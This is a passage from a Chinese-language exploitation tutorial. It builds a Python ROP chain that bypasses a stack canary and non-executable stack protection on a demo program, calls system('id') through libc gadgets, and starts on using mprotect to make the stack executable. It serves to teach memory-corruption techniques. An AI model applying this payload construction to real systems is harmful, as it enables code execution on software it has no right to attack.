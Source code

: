 请注意，第一次使用该-zexecstack选项进行编译时，利用成功，并且 shellcode 成功执行，但第二次，当我们没有使用该选项时，利用失败，并且 shellcode 没有执行。  
  
我们需要更改代码执行策略，不再让程序跳转执行注入到堆栈中的代码，而是让它返回到 libc 并运行系统函数，这样我们就可以在系统上运行命令了。系统函数只接受一个参数，即以空字符结尾的字符串形式的命令。根据 Linux 调用约定，任何函数调用的第一个参数都应该通过 rdi 寄存器传递，因此我们需要一个 ROP 小工具将命令地址设置为 rdi，并且一旦这个小工具返回，保存的指令指针应该是另一个调用系统函数的小工具。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeYk9pbibPZ7GcMFkubQZibXreHdibzibNm1tbzGtW8YwniaJwCicnEMib1OhE2tIwhVGba2NmNMyfQJR45w/640?wx_fmt=png&from=appmsg "")  
  
太好了。使用Peda searchmem命令，我们在 C 库中找到了字符串“id”，我们将使用它作为系统函数的参数。  
  
```
gdb-peda$ x/s 0x7ffff7f5a0780x7ffff7f5a078: "id"
```  
  
  
好的，现在我们需要一个 ROP 小工具来将此指针设置为 RDI 寄存器。典型的 ROP 小工具是pop rdi; ret，因此我们将用该小工具的地址替换指令指针，并将命令地址放在它旁边。现在，我们准备调用系统函数。我们将遵循相同的方法：我们将系统函数放在堆栈上并使用小pop rax; ret工具来检索它，然后我们将使用call rax小工具。但是随后进程将崩溃，因为一旦系统函数完成并返回，下一个指令指针将是一个不受我们控制的地址。因此，我们必须随后调用退出函数以正确关闭程序。幸运的是，我找到了一个调用寄存器（call rax）然后调用退出函数的小工具，而我们不必自己执行此操作。  
  
```
(gdb) x/3i0x7ffff7dd7d66    0x7ffff7dd7d66 <__libc_start_call_main+118>: call *%rax   0x7ffff7dd7d68 <__libc_start_call_main+120>: mov %eax,%edi   0x7ffff7dd7d6a <__libc_start_call_main+122>: call 0x7ffff7df0280 <__GI_exit>(gdb)
```  
  
  
我们构建 ROP 链如下：  
  
```
def hijack_exec(p: Popen, canary):    payload = b""    payload += b"A" * 0x112                               # Fills the stack frame    payload += struct.pack( "<Q", canary ) # Places the correct canary value     payload += b"B" * 0x8                                 # Base pointer    payload += struct.pack( "<Q", 0x7ffff7dd8205 ) # pop rdi; ret    payload += struct.pack( "<Q", 0x7ffff7f5a078 ) # The command address ( id )    payload += struct.pack( "<Q", 0x7ffff7df1067 ) # pop rax; ret    payload += struct.pack( "<Q", 0x7ffff7e008f0 ) # system function address    payload += struct.pack( "<Q", 0x7ffff7dd7d66 ) # call rax ; system( "id" ); exit( 0 )    p.stdin.write( b"1\n" )    p.stdin.write( payload + b"\n" )    p.stdin.flush()
```  
  
  
让我们针对该程序尝试这个策略，看看它是否有效。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeYk9pbibPZ7GcMFkubQZibXrS4NvAdzvoT9tbdqWHcViaaaIEEVnOomTL1ecGtFVMKmYffue090gBmg/640?wx_fmt=png&from=appmsg "")  
  
强制禁用 DEP 保护并执行任意代码  
  
操作系统提供了一些低级 API，允许我们在运行时修改内存页面的权限。例如，Windows 提供了一个名为的 API VirtualProtect，以及一个更低级的原生 API 来实现NtProtectVirtualMemory这一点。另一方面，基于 Unix 的系统也提供了类似的 API 来完成相同的任务，例如mprotect。这些事实可能会被滥用，迫使目标程序执行我们的恶意指令。  
  
我们可以滥用该mprotect函数使堆栈可执行，然后强制程序执行注入到堆栈中的指令。mprotect声明如下：  
  
```
intmprotect(void addr[.size], size_t size, int prot);
```  
  
  
它需要三个参数：  
1. addr：内存区域的起始地址，必须与页边界对齐。  
  
1. size：地址范围的长度（以字节为单位）。  
  
